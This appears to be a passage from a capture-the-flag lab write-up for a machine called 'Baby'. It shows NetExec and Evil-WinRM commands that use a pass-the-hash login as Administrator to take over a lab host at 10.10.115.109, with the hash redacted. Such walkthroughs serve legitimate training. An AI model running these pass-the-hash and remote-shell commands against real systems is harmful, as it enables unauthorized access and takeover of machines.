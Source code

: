 ```bash
nxc smb 10.10.115.109 -u 'Administrator' -H [HASH]
```

![](Baby-RootBlur.png)

Using Evil-WinRM, the machine is pwned:

```bash
evil-winrm -i 10.10.115.109 -u 'Administrator' -H [HASH]
```

![](Baby-BabyAdminBlur.png)

